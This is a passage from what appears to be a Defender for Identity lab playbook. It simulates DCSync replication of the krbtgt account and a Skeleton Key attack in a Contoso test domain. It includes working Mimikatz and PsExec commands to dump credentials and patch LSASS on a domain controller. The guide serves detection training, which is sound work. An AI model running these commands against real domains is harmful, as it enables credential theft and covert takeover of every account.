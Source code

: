 Malicious replication allows an attacker to replicate user information using Domain Admin (or equivalent) credentials. Malicious replication essentially allows an attacker to remotely harvest a credential. Obviously, the most critical account to attempt to harvest is "krbtgt" as it's the master key used to sign all Kerberos tickets.

The two common hacking tool sets that allow attackers to attempt malicious replication are **Mimikatz** and Core Security's **Impacket**.

#### Mimikatz lsadump::dcsync

From the **VictimPC**, in context of **SamirA**, execute the following Mimikatz command:

```cmd
mimikatz.exe "lsadump::dcsync /domain:contoso.azure /user:krbtgt" "exit" >> c:\temp\ContosoDC_krbtgt-export.txt
```

We've replicated the "krbtgt" account information to: `c:\\temp\\ContosoDC_krbtgt-export.txt`

![Malicious Replication via mimikatz.](media/playbook-dominance-maliciousrep_mimikatz.png)

#### Malicious Replication Detection in Defender for Identity

Using the Defender for Identity portal, verify the SOC is now aware of the malicious replication we simulated from VictimPC.

![Malicious replication being detected by Defender for Identity](media/playbook-dominance-maliciousrep_detected.png)

### Skeleton Key

Another domain dominance method attackers use is known as **Skeleton Key**. Using a Skeleton Key the attacker creates, the attacker can masquerade *as any user* at *any time*. In a Skeleton Key attack, every user can still sign in with their normal password, but each of their accounts is also given a master password. The new master password or Skeleton Key gives anyone who knows it, open access to the account. A Skeleton Key attack is achieved by patching the LSASS.exe process on the domain controller, forcing users to authenticate via a downgraded encryption type.

Let's use a Skeleton Key to see how this type of attack works:

1. Move **mimikatz** to **ContosoDC** using the **SamirA** credentials we acquired before. Make sure to push the right architecture of **mimikatz.exe** based on the architecture type of the DC (64-bit vs 32-bit). From the **mimikatz** folder, execute:

   ```cmd
   xcopy mimikatz.exe \\ContosoDC\c$\temp
   ```

1. With **mimikatz** now staged on the DC, remotely execute it via PsExec:

   ```cmd
   PsExec.exe \\ContosoDC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "misc::skeleton" ^& "exit")
   ```

1. You successfully patched the LSASS process on **ContosoDC**.

    ![Skeleton Key attack via mimikatz.](media/playbook-dominance-skeletonkey.png)
